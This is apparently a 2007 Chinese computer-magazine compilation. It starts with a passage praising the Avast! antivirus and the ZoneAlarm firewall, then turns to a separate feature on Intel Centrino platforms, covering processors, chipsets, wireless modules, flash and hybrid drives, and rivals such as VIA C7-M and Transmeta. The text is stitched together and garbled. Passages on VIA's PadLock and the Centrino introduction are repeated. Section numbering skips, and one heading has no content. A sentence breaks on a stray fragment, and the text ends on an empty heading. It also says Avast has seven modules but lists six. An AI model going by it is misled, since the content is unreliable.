首先，介绍一款强大而免费的杀毒软件Avast!。这是ALWIL Software 的拳头杀毒产品系列，ALWIL软件公司的研发机构在捷克的首都布拉格，和世界上许多国家的安全软件机构都有良好的合作关系。Avast!的实时监控功能十分强大，它拥有七大防护模块：网络防火墙防护、标准的本地文件读取防护、网页防护、即时通信软件防护、邮件收发防护、P2P软件防护。安装Avast! 4 Home Edition后，用户可在无需注册号的情况下使用60天。如果通过网站提交申请表，用户则可以通过电子邮件获得免费注册号，一年期满可以重新注册。因此，该软件实际上是免费的。安装并注册后，可以看到一个类似播放器但十分美观的杀毒界面。如图16所示。

软件亮点：此款软件的亮点有很多。首先，尽管是一款免费的杀毒软件，但功能十分全面，并提供了周到的升级服务。让国内用户欣喜的是，此款软件还提供了详细的中文界面。其次，与其他国内大型杀毒软件相比，Avast!所占用的系统资源相当少，能够提供实时的监控服务而不影响用户操作。当然，软件的设置功能也十分强大，用户可以自定义面板、查看日志、查看病毒数据库、通过网站查看详细的病毒资料等。

除了上述杀毒软件，下面还介绍一款免费的防火墙软件ZoneAlarm。这是一款非常优秀的个人防火墙软件，它可以保护电脑不受互联网上非法用户的入侵，同时还能够自动检测局域网络的设置，确保来自内部网络的通信不受影响。ZoneAlarm Pro的基于程序的防护规则不仅仅针对应用级别，还能够在系统组件层次制订访问规则，可以明显加强针对应用程序的粗粒度防护。设置规则时，可以单击“Zones”选项卡，在此区域右下方会出现“Add（添加）”、“Remove（删除）”及“Edit（编辑）”按钮。在功能上，软件具备广告过滤、隐私保护、清除Cookie等功能；在运行效能上，ZoneAlarm较多应用了内容检测技术。总之，无论是防护功能还是防护广度，ZoneAlarm的表现相当出色，尤其是那些需要高级别安全防范的用户。

# 无线你的无线 ——迅驰笔记本专题

◆文/方成亮

随着迅驰（Centrino）移动技术的发布，笔记本电脑在电池续航时间、超轻薄设计以及无线通信和高性能等多个方面都得到了大幅度提升，笔记本电脑也由此迎来了发展高峰期。毫无疑问，迅驰已经不仅仅是一个产品或是品牌，也不是简单的产品过渡，而将是未来移动计算趋势的体现。近期，第四代迅驰平台Santa Rosa已经发布，与之前的平台相比，Santa Rosa平台会给笔记本电脑带来怎样的变化？它又有哪些强劲的竞争对手？为了揭开这一谜底，我们将对迅驰一、二、三、四代技术进行回顾与展望，从技术演变的角度来展示迅驰平台给笔记本电脑发展带来的巨大影响。让超轻薄理念回归。

#### 一、追溯应用本源

科技以人为本。用户最终对于产品所看重的方面并非是技术指标，而是最真实的应用体验。在回顾历代迅驰技术之前，我们不妨先来关注一下究竟用户需要笔记本达到哪些要求，这或许也是迅驰技术能够取得巨大成功的关键原因——以用户需求为根本导向！

##### 1. 需求之一：超轻薄设计

笔记本电脑和普通台式机最大的区别在于笔记本电脑拥有不可比拟的便携性，可以方便地随身携带，做到移动办公，随时随地享受由科技带来的幸福快感。笔记本追求的不仅仅是高性能，移动性才是其根本。为此，轻薄笔记本受到广大消费者的欢迎。与相似配置的产品相比，轻薄笔记本的价格往往高出很多。轻便美观的铝镁合金外壳，先进的散热技术，充满人性化的设计，这些都是轻薄笔记本的内涵，也是普通产品无法诠释的……事实上，在笔记本发展的20年里，业界对于轻薄理念的追求始终没有停止过。或许其中经历过坎坷，但是最终还算功德圆满。如图1，迅驰1代处理器的出现，为超轻薄设计奠定了基础。

发热量巨大的Pentium4-M对于每一个移动用户而言都是一场恶梦，当时几乎让超轻薄本本成为一种奢望，甚至让很多用户不得不屈服于Pentium Ⅲ-M的低性能。而第一代迅驰技术（Banias核心）的出现可谓是让业界拉住了一根救命稻草，其发热量几乎等同于Pentium Ⅲ-M，而性能并不逊色于高频率的Pentium4-M。随后，无论是频率更高的第二代迅驰Sonoma（Dothan核心）还是第三代迅驰Napa（Yonah双核心）都将功耗控制作为重点，而第四代的Santa Rosa更是引入65nm制程以及更加先进的主频电压调节技术，因此确保了超轻薄本本能够代代延续。

##### 2. 需求之二：电池续航时间

笔记本最大的优势便是移动性，而提供这一切的基础便是电池。目前大多数笔记本的续航时间都在4小时以内，这距离用户所期望的8小时准全天候办公还有很大的距离。毫无疑问，在电池技术暂时难有突破的情况下，降低CPU等主要部件的功耗成为当务之急。延长笔记本的电池工作时间一直是很多用户的梦想，业界也为此不断努力着。在迅驰技术出现之后，笔记本的续航时间的确有了大幅度提高，而且历代迅驰在进化中也没有因为提高主频而明显缩短续航时间，这显然是令人欣喜的局面。

##### 3. 需求之三：综合性能表现

尽管我们一再强调性能并非是笔记本的唯一追求，然而完全忽略性能表现也是不现实的。随着操作系统和应用软件版本不断升级，笔记本也需要强大的性能表现来满足用户的根本需求。此外，系统综合性能还应当包含3D性能。将笔记本作为唯一一台电脑且又不愿错过3D游戏的用户对此非常看重。

以改变Pentium4-M高发热量颓势为主要目的的第一代迅驰并没有在性能上有太多的亮点，毕竟其主频较低而且二级缓存容量也不大。真正让人看到性能变化的是第二代迅驰，Dothan核心的Pentium M处理器拥有2MB缓存和533MHz前端总线，再加上高主频优势，其综合性能表现令人刮目相看，甚至台式机用户也蠢蠢欲动地渴望使用移动处理器。然而最令人瞠目结舌的还是Napa第三代迅驰，其中的Yonah处理器具备双内核，综合性能再上一个台阶。与此同时，历代迅驰所搭配的整合芯片组也在3D性能方面不断改善。迅驰2平台引入了PCI Express总线与双通道内存支持，此时GMA900显示核心的速度大幅度提升，而且可以支持DirectX 9 API，这与第一代迅驰所使用的I855GM有着天壤之别。略为有些遗憾的是，Napa第三代迅驰中所采用的I945GM整合芯片组在图形单元上仅仅是GMA950，此时与GMA900相比只是频率提高。但是，第四代迅驰又大幅度提升了集成显卡性能，GM965中的X3000显卡在Vista操作系统下拥有令人信服的表现。如图3，Napa第三代迅驰平台的Yonah双核心处理器。

> 小贴士：功耗控制与性能表现需要两手抓
移动处理器性能的飞速发展自然令人喜上眉梢，然而随之而来的高功耗与高发热量却也困扰着广大用户。作为移动设备，如果牺牲了低功耗特色而保全高性能，那么其实用价值将会大打折扣，当年Intel Pentium4-M的惨败便是最好的例子。然而反过来，如果一味强调节能而彻底忽视性能表现，也同样会被市场无情地抛弃，已经退出移动处理器市场的全美达便是这样一个悲剧的缔造者。

##### 4. 迅驰潜在对手之一：挑战安全性极限的威盛C7-M

威盛C7-M移动处理器最大的安全特色功能便是整合了先进的PadLock加密引擎，这使得机密的资料无论是储存在电脑里，或者是通过局域网络和广域网络传输时，都能拥有值得信赖的安全保护。同时，PadLock也将使得许多专业的资料保全应用系统更加强大，包括更理想的高负载资讯编密系统以及更安全的线上交易机制等等。与迅驰3相比，C7-M的硬件级加密技术显然独树一帜，这甚至是Yonah所不具备的功能。

PadLock的原理为：其核心为一组高阶的随机数值产生器（Random Number Generator），利用芯片上无规律的电子杂讯，计算出对应资料本身的随机数值作为加密编码之用；而产品研发人员则可由新的x86指令，直接由硬件取得这些随机数值，无须通过软件的驱动程序。这种纯硬件的设计比过去软硬件组合的资料加密架构更有效率、更可靠。另外，PadLock也支持多种运行模式，提供由每秒钟750K位至6百万位不等的各种效能。以AES加密算法为例，此时最快可以达到25Gb/s的速度，因此用户丝毫不会因为重视安全性而令产品性能受到损失。

##### 5. 彻底忽视性能的恶果：全美达酿成的悲剧

与Intel、AMD以及VIA这三大x86微处理器厂商相比，Transmeta（全美达）的知名度或许要小得多，不过这并不意味着平庸。在功耗与发热量方面，Transmeta的Crusoe处理器甚至优于Intel引以为傲的迅驰，成为不少超轻薄笔记本的首选。Crusoe处理器所使用的并不是传统指令集，而是256位结构的VLIW（超长指令字），因此性能并非是这款处理器的重点。然而重视功耗与发热量控制并没有错，不过一味忽视性能也是不可取的。发展到末期，Crusoe处理器的性能甚至也只能与Tualatin核心的Pentium III-M持平，浮点性能甚至更差。尽管我们不能简单地认为性能低下是导致Transmeta退出市场的根本原因，但是这至少是重要原因之一。

##### 6. 被迅驰压制的AMD移动处理器

在Comdex 2003大会期间，AMD一位高层管理人员Kevin Knox对其竞争对手Intel的迅驰技术发表评论。他表示无线技术作为迅驰平台的主要组成，这部分产品以及技术的发展并不令人满意，甚至可以用“垃圾”这个词来形容，并认为Intel目前就是在误导市场的发展！平心而论，Intel的市场推广能力的确令任何竞争对手感到恐惧，甚至很多用户至今仍然误以为“迅驰是处理器，而且是内置无线网络功能的处理器”。

迅驰平台中的Pentium M处理器跳出了传统的思维模式，并没有在Pentium4基础上进行改造，而是吸取了Pentium4与Pentium III的精华。由于采用了全新的架构，因此，Pentium M只需要较低的工作主频就能发挥出相当出色的性能。在与Pentium4-M的较量中，Pentium M展现出明显的性能优势，甚至令笔记本的处理器性能与台式机并驾齐驱。

之所以Kevin Knox会对迅驰技术如此不满，或许并不仅仅针对Pentium M处理器，而是Intel巧妙地炒作“无线网络”概念，这让AMD无可奈何，甚至束手无策。从概念上说，将无线网络技术与Intel的迅驰技术挂钩确实有些牵强。什么是无线网络处理器？或许很多业内人士心目中的答案应该是“整合无线网络功能的处理器”，或者至少是“具备无线网络辅助单元的处理器”。然而在Intel的迅驰技术中，所谓的WIFI无线网络仅仅通过板载芯片来实现，这似乎并没有什么能够令人值得骄傲的。

早在Pentium III-M笔记本流行的时代，IBM、东芝、惠普等品牌的高端笔记本就通过内置无线网络模块来支持这项无线网络技术。从效果上看，这与Intel迅驰技术中的无线网络技术完全一致，没有任何区别。更进一步来说，任何具备PCMCIA插槽的笔记本，只要插上一块售价200元左右的WIFI无线网卡，也可以达到完全等同于迅驰笔记本的无线网络功能。对于Intel而言，其强大的市场调控能力让WIFI技术一夜之间变成香饽饽，仿佛无线网络瞬间走出商用市场的禁锢，在个人用户市场开花结果。事实也证明了Intel的强大，当迅驰笔记本铺天盖地之后，无线局域网确实变得触手可及，直接奠定了整个市场。然而为AMD说一句公道话，当前AMD炫龙64移动处理器也有非常不错的表现，无论是性能还是功耗控制都令人满意，只是AMD永远缺少Intel的市场能力，距离成功总是相差一大截。

### 2007年热点技术与应用

《电脑爱好者》合订本附录

#### 一、历代迅驰平台对比

目前的四大迅驰平台在性能上有着不小的差异，这不仅仅只是CPU方面的区别，而是整个平台发生了翻天覆地的变化。对于这四大迅驰平台之间的区别将对我们了解近几年笔记本技术的发展状况很有帮助。事实上，迅驰平台所带给用户的不仅仅是更为出色的处理器，在芯片组、无线网络等方面也都有着显著的改进。

##### 1. CPU对比

毫无疑问，在移动处理器方面敷衍了事地采用“变种”台式机处理器是不现实也是不负责任的。为此，业界老大Intel推出了具有里程碑意义的Banias处理器，也就是大家熟知的第一代Centrino迅驰。尽管业界中不少人认为Banias仅仅是改良版的Pentium III-M，通过超大容量的二级缓存以及更高的前端总线来提升性能，但是对于移动用户而言，我们看重的仅仅是性能与功耗。Banias的性能已经几乎与Pentium4并驾齐驱，而功耗与发热量更是大幅度减小。作为Intel第一款专注移动市场设计的处理器，其成功是毋庸置疑的。在整个2003年中，Banias以极快的速度取代了发热量极大的Pentium4-M，结束高性能笔记本没有超薄型产品的尴尬。

对于一款移动处理器而言，依靠先进的制作工艺来实现低功耗与低发热量，然后使用大容量缓存以及优化的流水线弥补主频上的不足已经成为一种固定的发展模式。结束并不成功的Pentium4-M时代之后，Banias很快依照以上两点而取得成功，而第二代迅驰所采用的Dothan无疑更进一步。第一代Banias核心之所以没能实现2MB二级缓存与Intel当时无法掌握90纳米制作工艺有着直接联系，而面对如今水到渠成的局面，出现“进化”后的Dothan自然并不出乎意料。

迅驰2 Sonoma平台采用Dothan核心的Pentium M处理器，前端总线提高到533MHz，而且频率普遍较高，这自然带来更好的性能。而迅驰1平台选择Banias和Dothan核心，前者因为二级缓存容量较小而性能一般，后者的前端总线只有400MHz。更加重要的是，迅驰1平台的主频较低，这对于性能发挥有些影响。事实上，采用Dothan核心并不等于就一定是迅驰2，因为很多迅驰I平台（也称为迅驰1.5或是准迅驰2）的笔记本也采用Dothan核心的Pentium M处理器，只不过搭配I855系列芯片组而将前端总线限制在400MHz。

Napa是Sonoma之后的又一款Intel笔记本平台，使用代号为Yonah的双内核移动处理器。Yonah使用了65纳米制作工艺，二级缓存容量依然是2MB，但是前端总线提高到667MHz，如图4，Yonah使用65纳米制作工艺。在迅驰3后期，Merom核心的移动CPU浮出水面，这其实也是迅驰4平台的移动处理器。



| 迅驰1 | 迅驰2 | 迅驰3 | 迅驰4 |
| :--- | :--- | :--- | :--- |
| CPU内核名称 | Banias | Dothan | Yonah | Merom |
| 针脚数 | Socket 479 | Socket 479 | Socket 479 | Socket 479 |
| 制作工艺 | 0.13微米 | 90纳米 | 65纳米 | 65纳米 |
| 标准版热量设计功率TPD | 24.5W | 21W | 31W | 31W |
| 节能技术 | Enhanced SpeedStep | Enhanced SpeedStep | Dynamic Power Coordination | Dynamic Deactivation |
| 双内核 | 否 | 否 | 是 | 是 |
| 前端总线 | 400MHz | 533MHz | 667MHz | 667MHz / 800MHz |
| 二级缓存 | 1MB | 2MB | 2MB | 2MB/4MB |

##### 2. 芯片组对比

第一代迅驰所使用的芯片组为I855系列，搭配ICH4-M南桥，这几乎与Pentium4时代的芯片组是一致的，因此我们也看到当时有很多迅驰I笔记本采用与Pentium4-M笔记本相同的模具。由于I855系列无法支持双通道DDR并且只有AGP总线，因此无论是内存性能还是图形单元都明显偏弱，其中整合版的I855GM更是表现一般。此外，ICH4-M南桥在功能方面也显得平淡无奇，无法支持SATA硬盘等最新功能。

迅驰2平台的芯片组可谓令人颇为惊艳。代号为Alviso的I915系列芯片组内置Intel第三代图形引擎、高音质音频系统（High Definition Audio）、支持8个USB接口、4个PCI Express以及最大2GB容量的双通道DDR/DDR2内存。其实Dothan处理器和I915系列芯片组都是Intel第二代迅驰Sonama技术的核心组件。如果仅仅使用Dothan处理器而没有标配I915系列芯片组，那么将无法得到迅驰2授权。

值得大家关注的是，第二代迅驰中整合芯片组所带来的3D性能飞跃非常明显。目前占据GPU市场份额第一位的并非nVIDIA也不是ATI，而是通过整合芯片组占领市场的Intel。Intel 915GM/GML整合芯片组中，内建的GMA900集成图形核心组件除了支持DirectX 9.0之外，也开始采用DVMT 3.0动态显存技术。GMA 900与内存间的工作方式相当灵活，显示核心将可以作为显存的系统内存划分为两个部分。一是较小的预分配存储空间，也是GPU的独占空间，操作系统无法使用，其大小可通过BIOS调节，从1MB到8MB。另一部分是通过DVMT划分给GMA 900的。

而被称为迅驰3的Napa平台有更为令人赞叹的表现，其芯片组为I945GM，内置了GMA950显示核心，支持双通道DDR2-667内存。I945GM版GMA950显示核心时钟频率较低，只有250MHz；而I945GT版GMA950频率高达400MHz。I945系列移动芯片组的最大特色在于支持双内核处理器，而且双通道DDR2-667正好搭配Yonah处理器的667MHz前端总线，可以达到十分理想的性能。除此之外，Napa平台中的ICH7-M南桥芯片也有更为出色的表现，全面支持PCI Express x1和SATA2标准。如图5，迅驰3平台的I945GM北桥。



相比之下，如今迅驰4平台的GM965有着更加出色的表现，尤其是其GMA X3000显卡的性能非常强大，而且支持了硬件T&L。此外，GM965对于显存的管理也更加合理。在Fixed模式中，一段固定大小的内存容量被分配给显示核心。这段将被显示核心独占，大小可由64MB到128MB调节。在DVMT模式中，显卡核心如同其它操作系统那样使用内存，如果一个十分消耗显存的3D游戏开始运行，那么系统自动调用内存分配给显示核心。当GPU不再需要占用这些内存资源时，会自动归还给系统内存。在这种模式下，GPU可分配到的最大内存容量是512MB。而在Fixed+DVMT模式中，显示核心本身独占一个64MB的内存空间，而后还有448MB的动态内存分配空间，这样显示核心最少有64MB，而最大有512MB的存储空间。





| 芯片组名称 | 迅驰1 | 迅驰2 | 迅驰3 | 迅驰4 |
| --- | --- | --- | --- | --- |
| 搭配南桥 | ICH4-M | ICH6-M | ICH7-M | ICH8-M |
| 内存模式 | 单通道 DDR333 | 双通道 DDR333 | 双通道 DDR2-667 | 双通道 DDR2-667 |
| 集成显卡 DX 版本 | 7.0 | 9.0 | 9.0 | 10.0 |
| 显卡总线 | AGP | PCI Express | PCI Express | PCI Express |
| Mini PCI Express | 不支持 | 不支持 | 支持 | 支持 |
| HD Audio | 不支持 | 支持 | 支持 | 支持 |
| 最高硬盘标准 | ATA100 | SATA | SATA2 | SATA2 |

##### 3. 无线网络对比

无线上网是迅驰平台最大的特色。第一代迅驰只是集成了Intel Pro/Wireless 2100无线网络芯片，仅能支持带宽为11Mbps的IEEE802.11b，后来又升级到IEEE802.11b/g标准。然而当时很多厂商在自家高档产品中采用802.11a/b双频无线网卡而不得不放弃迅驰认证。面对这种局面，迅驰2迅速进行了改进设计，其Pro/Wireless 2915ABG无线网络模块能够支持IEEE802.11a/b/g三种频段。如图6，Intel Pro/Wireless 2915ABG无线网络模块。IEEE802.11a与IEEE802.11b/g最大不同在于其工作在5.0GHz频段下，可轻松避免来自2.4GHz频段的干扰。它的传输带宽为54Mbps，数据传输性能大大提高。虽然IEEE802.11a的带宽与IEEE802.11g相同，都为54Mbps，但却在总带宽方面比IEEE802.11g优秀很多。IEEE802.11a支持12个非重叠通道，其总带宽就为12×54Mbps。而IEEE802.11g则只拥有3个非重叠通道，IEEE802.11a的优势在接入设备超过3个后就能体现出来。迅驰3 Napa平台中的无线网络模块则被称为Golan，其无线标准依然是IEEE802.11a/b/g三种频段，不过采用了PCI Express总线，也就是Mini PCI Express。Golan无线网络模块尺寸从目前的MiniPCI改为Mini PCI Express，面积减小近一半。更为重要的是，Golan采用将天线和RF收发器以及IC等高频元件进行模块化设计的FEM前端模块，此时能避免因采用多频段而导致的高频元件数量增多、封装成本增高以及封装面积增大等问题，而且能在Mini PCI Express规定的小尺寸下实现模块封装。至于迅驰4平台，其无线网络进一步升级，而且今后有望引入IEEE 802.11n标准。

随着迅驰移动技术的发布，笔记本电脑在电池续航时间、超轻薄设计以及无线通信和高性能等多个方面都得到了大幅度提升，笔记本电脑也由此迎来了发展高峰期。毫无疑问，迅驰已经不仅是一个产品或是品牌，也不是简单的产品过渡，而将是未来移动计算趋势的体现。时至今日，Intel的迅驰平台已经发展到第四代，Santa Rosa平台可谓如日中天。

#### 三、迅驰4平台深入分析

迅驰4 Santa Rosa平台所采用的移动处理器是Merom核心的酷睿2，这也被认为是相对迅驰3平台中Yonah核心的一次重要升级。尽管依然是双核心技术，但是酷睿2比起上一代的酷睿1有了显著的性能提升。如图7，Intel移动平台发展蓝图。

##### 1. 酷睿2强劲动力：迅驰4精神领袖

决定CPU主频极限的因素不仅仅是制作工艺，流水线同样重要。扩展流水线之后，相同的制作工艺可以实现更高的主频，但是流水线过长将会导致执行效率降低。对此，CPU厂商所要考虑的问题便是权衡处理。在经过Pentium4-M短暂的失败之后，采用Banias核心的第一代迅驰处理器的流水线比Pentium4-M大幅度缩短。为了在现有的65纳米制作工艺上实现更高的主频，Intel在进入Core架构时代之后大胆地选择略微延长移动处理器的流水线。现在，酷睿2已经进入一个极佳的平衡点。当然，酷睿2是一个全新微架构推出的产品，Intel完全从零开始设计酷睿2微架构，而并非在第一代酷睿架构上进行少量改进。可以看到，酷睿2的核心尺寸为2×144.9mm²，足足比酷睿的2×90.3mm²核心尺寸提高了60%，而晶体管数量更是从1.51亿猛增到2.91亿。众所周知，二级缓存是最耗费晶体管的，而这也是酷睿2晶体管数量大幅度增加的主要原因之一。酷睿2拥有2MB或是4MB二级缓存，而且缓存采用共享方式，可以直接供任意一个内核使用。而酷睿只拥有2×1MB二级缓存，并且无法实现共享。酷睿2比起酷睿的另外一个直观区别便是提供对EM64T以及SSE4指令的支持。在Windows Vista时代，64位计算功能十分重要。酷睿1无法支持64位计算功能，这已经成为一个巨大的软肋，因此酷睿2通过EM64T技术加以弥补。至于SSE4指令集，这又是晶体管消耗大户。SSE4指令集包括16条指令，将帮助酷睿2在视频性能上获得巨大的提升。

### （1）Core架构完美表现

### （2）更加省电的能耗控制

将更多新功能融入至移动平台，不仅会消耗电池续航力，更会让笔记本电脑的设计面临更多的限制。Intel正努力逆转这种局势，开发各种耗电状态管理技术以及新型电池技术，借此延长笔记本电脑的电池续航力，同时维持产品外型轻薄短小的特性。Santa Rosa平台中的酷睿2移动处理器集成了新型电源管理技术。如果工作量不是很密集，那么处理器可以暂时关闭其中一个内核，从而节省几乎一半的电能。除此以外，降频节能技术也得到进一步应用，而且降频过程将更为智能化，不再简单地以是否连接交流电作为降频标准，而是可以根据CPU的工作负荷量来决定。如图8，智能化的节能技术将能在追求性能的同时兼顾低功耗表现。



与以往的节能技术相比，运用在酷睿2上的智能功耗管理性能（power-smart performance）显然更加先进。在多数应用情况下，酷睿2并不需要全速运行，能够大幅度降低频率甚至关闭另一个内核，此时整体功耗将能得到有效控制。然而必须要明白的是，节能技术仅仅是一种辅助，真正的命脉是掌握更为先进的制作工艺或者通过架构改进来实现更低的功耗。首先，酷睿在制作工艺上全面升级至更为先进的65nm应变硅技术、加入低K栅介质及增加金属层，相比上代90nm制程减少漏电达1000倍，这也能进一步减少不必要的功耗。此外，新酷睿2处理器还可支持动态前端总线频率切换、增强型深度休眠和动态加速功能，可进一步降低系统运行功耗，并对单线程运算进行了优化。

###### (3) 更为关键的IDA技术

随着主频的提升受到制作工艺的制约，处理器制造商开始寻求新的解决途径，频率至上的思路已经被抛开。毫无疑问，双核心是一个大胆的创举，而且短时间内就能取得明显的效果。然而，双核心技术并非想象中那样一帆风顺，以Pentium D为例，低效双核是最不可取的。尽管迅驰3 Napa Refresh过渡平台中的Merom已经很好地优化了双核心，但是这还不是终点。针对全新的迅驰4，Intel采用了Intel Dynamic Acceleration (IDA)，这也是移动处理器技术发展又一次领先于台式机处理器的标志，甚至可以说是新版Merom最大的亮点，其意义远远超过增加二级缓存或是提高前端总线。

已经在使用双核心处理器的用户都有这样一种体验：大多数情况下我们使用的都是单线程软件，而双核心处理器有时难以发挥很好的作用，甚至会造成工作效率降低。而现在，通过IDA技术的帮助，迅驰4可以针对单线程任务或是大范围非并行指令进行更加合理的流水线分配，甚至面对单线程应用时只由一个核心来工作，从而提高性能，并且另一个空闲的核心能够进入深度休眠状态，降低处理器的耗电，同时也延长续航时间。而当有新的线程进入队列时，休眠的核心就会根据需要开始工作，切换时间短到不影响性能表现。如图9，IDA技术有效加强的双核运作效率。



### 2.迅驰4平台全面升级

迅驰4平台的亮点可不仅仅是酷睿2移动处理器，既然整个迅驰平台包含了芯片组和无线网络模块，这其他两大组件自然也有进一步的升级。不过，由于不少配套技术已经发展成熟，因此迅驰4在芯片组和无线网络模块方面改进幅度并不算很大。

###### (1) 移动芯片组改进不大

Intel在台式机领域的P965芯片组大红大紫，而迅驰4的标配移动芯片组自然也相应升级。从迅驰3平台的945系列到如今的965系列，尽管数字上的变化很大，可实际表现却相差并不大。作为独立芯片组，PM965的亮点在于改善了内存控制器，而且支持800MHz外频，不过这也仅仅是在搭配Extreme版移动处理器时才能发挥威力。相对而言，反倒是与965系列北桥搭配的ICH8-M南桥芯片更加引人瞩目。不支持IDE接口的ICH8-M意味着笔记本厂商再也不会使用IDE硬盘，这也等于和低转速小容量缓存的硬盘告别——因为SATA硬盘几乎是清一色的7200RPM和8～16MB缓存。

###### (2) 无线网络模块重大改进

迅驰4支持Intel 4965AG/4965AGN两种无线网络模块，可供笔记本厂商自由选择。但令人难以理解的是，Intel 4965AGN和4965AG居然都不支持802.11b标准，这不免让人非常担心其兼容性。目前，不少酒店甚至机场的无线接入还是802.11b标准的无线AP，甚至国内部分城市的“天翼通”也是802.11b。在户外上网时，其实11M速率的802.11b标准已经足够使用。此外，迅驰4的无线网络模块也有令人惊喜的地方。作为高端配置，Intel 4965AGN增加了对802.11n的支持，能够实现更高的连接速度与安全性，只是目前相关技术还不普及，大多数厂商还是选择Intel 4965AG无线网络模块。如图10，超强的Intel 4965AGN无线网络模块。



###### (3) 显卡性能大幅度提升

引入800MHz前端总线以及优化双通道DDR2 667内存控制器是新款芯片组最大的亮点，但是更加让人感兴趣的还是GM965中所集成的GMA X3000显卡。通过台式机版本的G965芯片组，我们应该已经对GMA X3000有了一定的了解。X3000拥有自己的硬件单元进行像素和顶点处理，全面支持DirectX 9.0c中的SM 3.0技术，完全符合微软Windows Vista Aero高级版的要求。平心而论，指望迅驰4的集成显卡跑大型3D游戏还是不现实的，但是在具备硬件级的顶点处理单元并且内置4条高频率像素渲染管线之后，其速度比起上一代产品还是有很明显的提升。如图11，完全支持Vista Aero高级版的集成显卡。



### 3.磁盘技术：各大厂商各显神通

闪存取代硬盘，这可谓是近期存储业界呼声最高的口号。尽管闪存有着硬盘无法比拟的低功耗以及稳定性优势，但是平心而论，至少在三五年内，硬盘依然是绝对的主流。然而，肯定硬盘主流地位并不意味着闪存技术毫无用武之地。在迅驰4平台中，Intel已经为磁盘系统加速做好了准备，而部分笔记本厂商更是彻底改进了硬盘技术。

###### (1) 迅盘技术吸引眼球

无论CPU和内存如何发展，硬盘作为最终的存储系统依然是一个性能瓶颈。在传统硬盘格局暂时难以改变的情况下，Intel作为全球最大的闪存芯片厂商率先打起了混合式硬盘的主意。其实，迅盘加速模块和已经铺天盖地报道的混合式硬盘异曲同工，只不过Intel将缓存移到了硬盘之外，并且通过PCI Express和系统相连，理论上比硬盘内部的SATA总线更快一些。如图12，迅盘加速模块有效提升了磁盘系统的性能。



Turbo Memory加速模块的原理便是充当硬盘和系统之间的缓存。读取数据的时候，硬盘根据预测算法，将需要使用的数据部分转移到Turbo Memory上，系统则从Turbo Memory直接读取。由于NAND闪存芯片能够更快地读取随机数据，不存在磁头寻道的步骤，因此可以高速多次重复读取某一数据，对于提高开关机速度很有帮助。而当需要写入数据的时候，系统先将数据传输到低功耗的Turbo Memory，当数据累计到一定数量后回写到硬盘，这样就能降低整体功耗，同时减少硬盘的磨损。

###### (2) 固态硬盘的寿命尴尬

从读取速度、稳定性以及功耗来看，基于闪存技术的固态硬盘的确有着非常巨大的优势，不少迅驰4笔记本电脑已经开始装配固态硬盘。但是，现在就断言闪存会取代硬盘还为时过早，因为闪存技术在可擦写寿命以及保存时间方面有着先天性的缺陷，而且其写入速度暂时也难以令人满意。闪存的单晶体管与普通晶体管非常类似，但是它加入了浮栅和控制栅。浮栅的主要作用是存储电子，位于晶体管导电沟道的上方，而且还包裹着一层硅氧化膜绝缘体。然而，也正是因为这样的工作原理，闪存会随着使用次数的增加而产生坏块，而且数据可以保存的时间在10年以内，甚至可擦写次数也仅仅是十万次左右。

尽管硬盘的实际工作寿命一般只有5～8年，但是只要不去破坏它，数据保存100年都不成问题。而在可擦写次数上，硬盘几乎是无限的。仅仅凭借这两项优势，闪存就难以撼动硬盘的霸主地位。现在，固态硬盘之所以没有大规模应用到PC，除了成本因素以外，稳定性也是不可忽视的原因。此外，尽管基于闪存技术的固态硬盘有着不错的读取速度，可是其写入速度以及随机读取速度还很不理想，这些都是阻碍固态硬盘普及的绊脚石。保守估计，至少在5年以内，硬盘还是PC用户首选的存储设备，固态硬盘的发展道路还非常漫长。

###### (3) 混合式硬盘崭露头角

既然固态硬盘暂时还难以取代传统硬盘，那么有没有比较折中的方案呢？其实，微软在推广Vista操作系统之时已经给了我们明确的答案，那就是混合式硬盘。早期的混合式硬盘原型配备了128M闪存，微软建议缓存的容量“越大越好”，因此现在混合式硬盘都至少配备了1G闪存。闪存所构成的这块存储空间被映射成硬盘日常使用最频繁的扇区，而且这个映射关系可根据实际情况作实时调整。如果这块空间足够大，关机前的内存映像可被写进缓存区里，到时候直接休眠关机即可，无须花时间将数据写进硬盘。而在系统上电时，由于上次的休眠数据被保存在缓存区，系统自检无误后即可将缓存区的数据读进内存，操作系统便可在1秒钟内启动完毕。

根据微软的估计，使用混合式硬盘最高可节省80%的耗电。原因在于混合式硬盘能让传统机械式硬盘在使用时进入睡眠状态，数据的读写和存取则在非易失性的闪存中进行。混合式硬盘可特别发挥的一个地方是微软的新一代操作系统Windows Vista。Vista“ReadyDrive”功能即是针对混合式硬盘技术所设计，而且这并不会让硬盘的成本提高太多，是在短期内很有望普及的技术。

但是混合式硬盘技术也并非是十全十美。和SSD固态硬盘一样，混合式硬盘也使用NAND型闪存，一旦固定的区域被反复读写，那么寿命也是一个令人担心的问题。因此，已经有厂商准备在混合式硬盘中内置更大容量的闪存，并且内建一种检测机制，以便及时弃用存在隐患的闪存区块。但是归根到底，混合式硬盘的稳定性还是高于SSD固态硬盘，而且成本也要平易近人得多，并且依然可以实现大容量存储。

#### 四、迅驰平台的竞争对手

尽管AMD在K6-2时代就推出了移动版处理器，VIA也在嵌入式平台有所斩获，但是它们始终难以取得与Intel同级别竞争的资格。不过，千万不要以为迅驰平台已经“天下无敌”，因为无论是AMD还是VIA都还没有放弃。

### 1.挑战安全性极限的威盛C7-M

威盛C7-M移动处理器最大的安全特色功能便是整合了先进的PadLock加密引擎，这使得机密的资料无论是储存在电脑里，或者是通过局域网络和广域网络传输时，都能拥有值得信赖的安全保护。同时，PadLock也将使得许多专业的资料保全应用系统更加强大，包括更理想的高负载资讯编密系统、以及更安全的线上交易机制等等。与迅驰3相比，C7-M的硬件级加密技术显然独树一帜，这甚至是Yonah所不具备的功能。如图13，以安全性为特色的威盛C7-M移动处理器。



PadLock的原理为：其核心为一组高阶的随机数值产生器（Random Number Generator），利用芯片上无规律的电子杂讯，计算出对应资料本身的随机数值作为加密编码之用；而产品研发人员则可由新的x86指令，直接由硬件取得这些随机数值，无须通过软件的驱动程序。

序。这种纯硬件的设计比过去软硬件组合的资料加密架构更有效率、更可靠。另外，PadLock也支持多种运行模式，提供由每秒钟750K位至6百万位不等的各种效能。以AES加密算法为例，此时最快可以达到25Gb/s的速度，因此用户丝毫不会因为重视安全性而令产品性能得到损失。

##### 2. 全美达

